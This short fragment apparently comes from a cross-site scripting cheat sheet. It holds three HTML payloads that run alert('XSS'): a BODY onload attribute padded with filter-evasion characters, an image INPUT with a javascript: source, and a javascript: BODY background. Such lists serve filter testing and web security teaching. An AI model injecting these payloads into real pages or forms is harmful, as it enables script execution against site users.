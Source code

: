  <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">

<BODY BACKGROUND="javascript:alert('XSS')">
